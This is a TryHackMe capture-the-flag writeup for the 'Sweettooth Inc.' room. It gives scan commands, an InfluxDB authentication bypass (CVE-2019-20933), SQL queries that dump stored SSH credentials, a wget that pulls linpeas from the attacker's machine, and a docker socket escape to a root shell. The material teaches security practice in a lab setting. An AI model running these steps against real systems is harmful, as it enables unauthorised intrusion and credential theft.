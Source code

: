 ```yaml
---
layout: post
title:  "Sweettooth Inc. Writeup"
date:   2024-05-23 13:15:45 -0400
categories: tryhackme medium
tags: writeup tryhackme medium CTF
---
```

## Introduction
This is a medium challenge box on 
[TryHackMe](https://tryhackme.com/r/room/sweettoothinc){:target="_blank"}{:rel="noopener noreferrer"}
> This is what a hint will look like!
{: .prompt-tip }

## Enumeration

### Ports
As always let's run a few scans to see what ports are 
open and what services are running

#### Rustscan
[Rustscan](https://github.com/RustScan/RustScan){:target="_blank"}{:rel="noopener noreferrer"}
is a helpful port scanner that runs faster than a full
nmap scan

```bash
rustscan -a VICTIM_IP
```

![rust-scan](/images/sweettooth-inc/rustscan.png)

#### Nmap
We have 4 ports open so let's run some scripts against
them

```bash
nmap -A -p111,2222,8086,58425 -T4 -vv -oA ports VICTIM_IP
```

![nmap-scan](/images/sweettooth-inc/nmap.png)

There are 2 ports to take note of

- 2222: SSH
- 8086: HTTP

## Initial Foothold
> Search the internet for exploits with the running 
services and versions
{: .prompt-tip }

According to our scan, port 8086 is running InfluxDB
version 1.3.0. Let's search the internet for some exploits

### Authentication Bypass
One of the first results is 
[CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933){:target="_blank"}{:rel="noopener noreferrer"}
which is an authentication bypass vulnerability in 
InfluxDB < 1.7.6. Version 1.3.0 fulfills that 
requirement so let's try this out!

```bash
git clone https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
cd InfluxDB-Exploit-CVE-2019-20933
pip3 install -r requirements.txt
python3 __main__.py
```

![influx-roadblock](/images/sweettooth-inc/influx-roadblock.png)

Oh no, we don't know the username! We could brute 
force usernames in the background but that won't be 
necessary. There is another way

### Username
> You don't need to brute force. Keep searching the 
> internet for exploits with the specific version
{: .prompt-tip }

Continuing our public exploit search, we find an interesting 
[blog post](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day){:target="_blank"}{:rel="noopener noreferrer"}.
By visiting `<IP>:8086/debug/requests`  a username on the system is leaked!

![username-leak](/images/sweettooth-inc/username-leak.png)

### Database
> Did you leak everything from the database?
{: .prompt-tip }

We have a username to bypass authentication with, so 
let's leak some data. Connect to the database with the 
previous authentication bypass exploit

```bash
python3 __main__.py
```
On the database screen type the name you want to use. 
Remember you can use `.back`  to change databases. Table 
and column names can be listed with the command

```sql
show field keys
```

Getting all data entries for a table is in the format

```sql
select * from table_name
```

We're asked two questions to leak database information. 
First we need to convert the given UTC Unix Timestamp to 
something more... readable. I used 
[this converter](https://epochtimestamp.com/){:target="_blank"}{:rel="noopener noreferrer"}
and sifted through the entries. We're looking for a 
temperature similar to the time 
`2021-05-18T10:00:00-04:00`

```sql
tanks
show field keys
select temperature from water_tank
```

![water-temp](/images/sweettooth-inc/water-temp.png)

Next we need to find the highest rpm for the mixer. 
Switch databases and sift through the entries again

```sql
.back
mixer
show field keys
select field_rpm from mixer_stats
```

![motor-rpm](/images/sweettooth-inc/motor-rpm.png)

The same process can be done to leak ssh credentials

```sql
.back
creds
show field keys
select * from ssh
```

![db-ssh](/images/sweettooth-inc/database-ssh2.png)

Let's use these ssh credentials. 
Remember from our scan that ssh is on port 2222!

```bash
ssh user@VICTIM_IP -p 2222
```

## Privilege Escalation
> linpeas will nudge you in the right direction
{: .prompt-tip }

### linpeas
Upload the privesc script
[linpeas.sh](https://github.com/peass-ng/PEASS-ng){:target="_blank"}{:rel="noopener noreferrer"}
so we can find an avenue to escalate our privileges

```bash
# Attacker machine, in a directory with linpeas.sh
python3 -m http.server 80

# Victim machine
wget http://YOUR_IP/linpeas.sh
sh linpeas.sh
```

![docker-linpeas](/images/sweettooth-inc/docker-linpeas.png)

> User essentially has docker privileges without 
> the docker binary
{: .prompt-tip }

`/run/docker.sock` is writable, meaning we have docker 
privileges! We can escape and elevate our privileges 
but there's one problem...

![docker-mising](/images/sweettooth-inc/docker-missing.png)

The docker binary is missing!

Normally we can install packages on Debian based systems 
with the command

```bash
sudo apt-get install <package-name> 
```

But if we could use sudo, we wouldn't have this issue in 
the first place

> If we had the docker binary available, 
> we could escalate our privileges...
{: .prompt-tip }

Thankfully we can download the
[docker binary directly](https://download.docker.com/linux/static/stable/x86_64/){:target="_blank"}{:rel="noopener noreferrer"}!
Let's upload docker and try it out

### Docker Upload
```bash
# Attacker machine, in a directory with the docker file
python3 -m http.server 80

# Victim machine
wget http://YOUR_IP/docker-17.03.0-ce.tgz
tar xf docker-17.03.0-ce.tgz
cd docker
./docker images
```
![docker-test](/images/sweettooth-inc/docker-test.png)

Everything works, so let's elevate our privileges

## Root
> Is there a GTFO bin for docker?
{: .prompt-tip }
[GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell){:target="_blank"}{:rel="noopener noreferrer"}
has an entry for creating a shell with docker

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Let's just replace alpine with a docker image we have 
access to and run the local docker binary

```bash
./docker run -v /:/mnt --rm -it influxdb:1.3.0 chroot /mnt sh
```

Root shell! Funnily enough we're already root on the host 
instead of the container. We've achieved our goal so 
let's get the remaining flags

```bash
find / -type f -name "*root.txt*" -ls 2>/dev/null
```

```bash
280243  4 -rw-r--r-- 1 root root  22 May 15  2021 /root/root.txt
  1700  4 -rw-r--r-- 1 root root  22 May 18  2021 /var/lib/docker/aufs/mnt/33d446f7c7981fe737a399371821828a94aedd9af216ca12a0845a4818a48c6c/root/root.txt
927203  4 -rw-r--r-- 1 root root  22 May 18  2021 /var/lib/docker/aufs/diff/20629420626c70a9bdf5807427da0badebc8e5d842cb82ae3ff83822b18c9e2a/root/root.txt
```

## Recap
A vulnerable version of InfluxDB leads to leaking a 
username as well as an authentication bypass. Database 
access leaks ssh credentials and provides a foothold into 
a docker container. We essentially have docker privileges 
since docker.sock is writable, but the docker binary is 
not available. Uploading the binary and using the docker 
gtfobin gives root.
